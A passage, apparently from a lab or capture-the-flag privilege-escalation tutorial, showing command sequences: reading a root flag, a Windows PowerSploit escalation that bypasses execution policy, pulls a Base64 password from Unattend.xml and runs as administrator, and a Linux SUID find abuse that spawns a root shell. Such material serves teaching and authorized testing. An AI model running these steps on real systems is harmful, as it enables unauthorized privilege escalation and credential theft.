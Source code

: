 ```bash
# Phase 10: Collect root flag
cd /root
ls -l
cat flag
# Output: 697914df7a07bb9b718c8ed2581150164
```

### Example 2: Windows PowerSploit Privilege Escalation (Lab Scenario)
```bash
# Phase 1: Check current privileges
whoami
# Output: priv-esc\student

whoami /priv
# Output: Shows SeImpersonatePrivilege DISABLED

# Phase 2: Navigate to PowerSploit and load PowerUp
cd .\Desktop\PowerSploit\Privesc\
ls
# Output: Get-System.ps1, PowerUp.ps1, Privesc.psm1, README.md

# Phase 3: Execute privilege escalation audit
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit

# Phase 4: Check for unattended installation files
Get-UnattendedInstallFile
# Output: UnattendPath: C:\Windows\Panther\Unattend.xml

# Phase 5: Extract credentials from unattended file
cat C:\Windows\Panther\Unattend.xml
# Look for <Password><Value>QWRtaW5AMTI=</Value></Password>

# Phase 6: Decode Base64 password
$password='QWRtaW5AMTI='
$decoded=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $decoded
# Output: Admin@123

# Phase 7: Escalate privileges using discovered credentials
runas.exe /user:administrator cmd
# Enter password: Admin@123
# Result: Administrator command prompt
```

### Example 3: Linux SUID Binary Exploitation
```bash
# Search for SUID binaries
find / -perm -4000 -type f 2>/dev/null
# Output: /usr/bin/find, /usr/bin/vim, /bin/bash

# Example output analysis
ls -la /usr/bin/find
# -rwsr-xr-x 1 root root 233984 Apr  5  2021 /usr/bin/find

# Exploit SUID find binary
find /etc/passwd -exec /bin/bash \; -quit
# Result: Spawns root shell if find has SUID bit set

# Verification
whoami
```